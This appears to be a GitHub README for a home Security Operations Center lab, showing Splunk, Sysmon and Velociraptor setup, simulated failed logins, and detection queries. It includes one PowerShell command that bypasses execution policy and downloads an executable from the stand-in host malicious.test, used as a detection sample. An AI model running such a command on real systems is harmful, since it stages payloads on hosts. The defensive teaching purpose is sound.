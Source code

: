 # SOC Lab

---
### Overview

The goal for this project is to get a better understanding of how Security Operations work and what tools blue teams have at their disposal to defend against emerging security threats. This lab is aimed to build a basic SIEM and experiment with tools like Sysmon for advanced logging, Splunk for real-time monitoring, and Velociraptor for endpoint forensics.
### Lab Setup

The lab setup here is going to be pretty basic. I will be running 3 VMs including:

* Windows 11 Host
* Ubuntu Server (Splunk)
* Ubuntu Server (Velociraptor) 

##### Virtualization
To get the lab setup I am going to be using virt-manager with libvirtd. If you wish to follow along on Windows, VMware workstation, Virtualbox and Hyper-V are a few options you can use.

##### Networking
As far as networking goes, I am going to create a new virtual network and put all of the VMs on it. If you want your SOC server to have internet access, you'll want to assign a NIC on a virtual network with NAT, and a second NIC for internal SOC traffic. Do not use a bridged network as we want all of our VMs to be isolated from our home network. 

##### Software

The software stack we are going to be running in our SOC lab is pretty short: Sysmon, Splunk, and Velociraptor. 

Sysmon will be put on the Windows 11 Host to achieve more advanced and granular logging, providing us with more data than what default Windows logging behavior would provide. 

Splunk is our SIEM (Security Information and Event Management) solution. SIEMs are a vital step in monitoring and responding to incidents that may occur on our hosts and networks. They allow us to aggregate our logs across multiple hosts and run queries against them to analyze for suspicious behavior. We will be using the free version of Splunk Enterprise which allows us up to 500MB of indexing a day. 

Lastly, Velociraptor is an open-source endpoint monitoring, digital forensic, and response platform. It's useful for using digital forensic artifacts to reveal clues as to how an attacker may have breached a host. It also works in real-time to triage these artifacts and attempt to identify anomalies.

Tools that gather data from many hosts give blue teams a larger, more detailed overview of what is happening in their infrastructure.

##### Connecting it all

Once you have got Splunk and Velociraptor installed on your server VMs, lets get the host(s) connected to them. Firstly, lets get the Splunk Universal Forwarder installed on Windows. Make sure to point the forwarder to your Splunk server IP on port 9997. In our Splunk server VM I am going to enable receiving using this command: `splunk enable listen 9997 -auth admin:changeme`. Lastly, create an inputs.conf file in `C:\Program FIles\SplunkUniversalForwarder\etc\system\local\inputs.conf`. The Splunk Universal Forwarder uses this file to know what to watch and send to the indexer. Here is what I use to get Windows Logs and Sysmon logs forwarded:

```# Collect standard Windows event logs
[WinEventLog]
index = wineventlog

[WinEventLog://Application]
disabled=0
[WinEventLog://Security]
disabled=0
[WinEventLog://System]
disabled=0
```

Then in the Splunk Microsoft Sysmon Add-on inputs.conf:

```
[WinEventLog://Microsoft-Windows-Sysmon/Operational]
disabled = false
index = sysmon
renderXml = 1
source = XmlWinEventLog:Microsoft-Windows-Sysmon/Operational
```

Now if we do a search in Splunk we get:

<img src ="https://i.imgur.com/oslTpky.png">

Next up lets get our Windows host talking to Velociraptor. The setup process requires creating a server config, creating a server installation executable from that config, installing Velociraptor on your server, generating a host executable and finally installing the client agent on your host. I won't go through all of the steps here but here is the quick start guide from Velociraptor's documentation: https://docs.velociraptor.app/docs/deployment/quickstart/. In the end you should be able to see your endpoint listed in the search clients list.

<img src="https://i.imgur.com/ZdAASzp.png">

### Simulated Attacks

Lets first do a pretty simple attack: brute force login. On the Windows 11 Host I tried logging into my 'lab' account multiple times with the wrong password. 

<img src ="https://i.imgur.com/hfJbbpf.png">

Next let's run a suspicious PowerShell command: `powershell -NoProfile -ExecutionPolicy Bypass -Command "Invoke-WebRequest http://malicious.test/file.exe -OutFile C:\Users\Public\file.exe"

This command will attempt to download a file and write it to the disk (We're isolated from the internet so it fails).

<img src="https://i.imgur.com/8nvDn42.png">
### Splunk Detection

Let’s take a look at Splunk. Splunk uses SPL (Splunk Processing Language) to search, filter, and analyze the many events it ingests. Data in Splunk is stored in indexes, which you can think of like databases. Different types of data may be stored in different indexes—for example, event indexes store log-style data, while metric indexes are optimized for numeric performance metrics. Indexes allow you to efficiently select the data you want without searching the entire dataset.

Splunk ingests data from logs, APIs, or streaming sources, organizes it in indexes, and then allows you to query it with SPL. For example, a simple SPL query to find failed login events in an index called `wineventlog` might look like: `index=wineventlog EventCode=4625`

<img src = "https://i.imgur.com/hsIjawQ.png">

If we open the Event it gives us more detailed information like what account was used to try and log in, what the hostname is, and what the failure reason is.

<img src="https://i.imgur.com/U747LYD.png">
<img src="https://i.imgur.com/SeohptC.png">

Let's make our query more usable by creating a table with time, account, hostname, and ip: `index=main sourcetype=WinEventLog:Security EventCode=4625 | table _time Account_Name Workstation_Name IpAddress`

<img src="https://i.imgur.com/BIQR10j.png">

Now suddenly our logs become a lot more useful since we have a larger overview of what account is trying to be logged into, on what machine its happening, and at what time its happening. But we can get even more specific. We can see which account had the most attempts at logging in unsuccessfully: 
`index=main EventCode=4625 `
`| stats count by Account_Name, Workstation_Name`
`| sort -count`

<img src="https://i.imgur.com/Ky1Hf0i.png">

Now let's look for our suspicious PowerShell command:

`index=sysmon EventCode=1 Image="*powershell.exe"
`| stats count by CommandLine, ParentImage, Computer`
`
<img src="https://i.imgur.com/PgTLcil.png">
But how does this query work?

1. We first specify the events in the sysmon index with `index sysmon`, 
2. Then sort by `EventCode1`. Windows event codes are numerical identifiers for specific things that the operating system records. Event code 1 in this case represents a new process being created; in our instance this is cmd.exe. 
3. After getting all events with event code 1, we filter further by Image which is a field pulled from the sysmon event seen here:

<img src ="https://i.imgur.com/pGrwMXB.png">
### Velociraptor Investigation

Now that we've got a little more familiar with Splunk let's move into Velociraptor. In Velociraptor we search for specific things using VQL (Velociraptor query language) which is similar to SPL & SQL. To do this we create what is known as a hunt. Hunts run artifacts (VQL queries) across selected clients to collect data. Velociraptor will track the results per client and we can export this data as JSON or CSV to analyze further. Let's create our first hunt:

<img src="https://i.imgur.com/1UzE3cu.png">

Now we can select which artifacts we want, here is what I am going to run:

**Windows.EventLogs.Evtx** - Collect Windows EVTX logs (Security, System, Sysmon)
**Windows.EventLogs.LogonSessions** (ExplicitLogon) - parses logon/logoff events
**Process listings / Processinfo artifacts** - list running processes and command lines
**Network Connections** - enumerates TCP/UDP connections to link processes to external IPs
**File collection / file metadata** - collect files (or metadata) in directories you want to check for exfiltration
**Autoruns / Registry Artifacts** - Check for persistence

If I select Windows.EventLogs.Evtx, we can see the VQL that is being run:

<img src="https://i.imgur.com/KHKm0wT.png">

After selecting the artifacts you want to run, configure them to your liking and then we can launch them. Once the hunt is finished we can now go investigate. Click on the hunt you just ran, and open up a client it ran on. From the left hand menu we can select `Collected Artifacts`. Select the Artifacts that you chose to collect, and then head over to the results tab.

<img src ="https://i.imgur.com/MTGOQ7K.png">

Here we can see some of the different files that were downloaded on this host:

<img src="https://i.imgur.com/uiiYsh2.png">

Here we can see what ports are listening on our Windows host:

<img src ="https://i.imgur.com/ZMzsQ92.png">


